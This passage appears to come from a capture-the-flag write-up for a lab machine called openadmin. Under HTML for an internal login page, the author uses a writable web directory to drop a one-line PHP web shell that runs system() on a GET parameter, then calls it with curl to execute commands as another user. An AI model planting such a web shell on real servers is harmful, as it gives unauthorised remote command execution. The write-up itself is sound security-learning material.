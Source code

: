 ```
            margin-bottom: 10px;
            border-top-left-radius: 0;
            border-top-right-radius: 0;
            border-color:#017572;
         }

         h2{
            text-align: center;
            color: #017572;
         }
      </style>

   </head>
   <body>

      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
                </div> <!-- /container -->

      <div class = "container">

         <form class = "form-signin" role = "form"
            action = "/index.php" method = "post">
            <h4 class = "form-signin-heading"></h4>
            <input type = "text" class = "form-control"
               name = "username"
               required autofocus></br>
            <input type = "password" class = "form-control"
               name = "password" required>
            <button class = "btn btn-lg btn-primary btn-block" type = "submit"
               name = "login">Login</button>
         </form>

      </div>

   </body>
</html>
```

The file that being displayed and executed at the same time in `/index.php` from the directory `/var/www/internal`.

```
jimmy@openadmin:/var/www/internal$ ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 May  1 13:26 .
drwxr-xr-x 4 root  root     4096 Nov 22 18:15 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22 23:24 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23 16:37 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23 17:40 main.php
```
We have read and write permissions in the dir `internal` so I can create `php` file that may execute my commands as in `cmd=param`
```
<?php echo "<pre>"; system($_GET['cmd']); ?>
```
```
jimmy@openadmin:/var/www/internal$ echo '<?php echo "<pre>"; system($_GET['cmd']); ?>' >> test.php
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/test.php?cmd=whoami

<pre>joanna
```
We confirmed that the service is running as user `joanna`
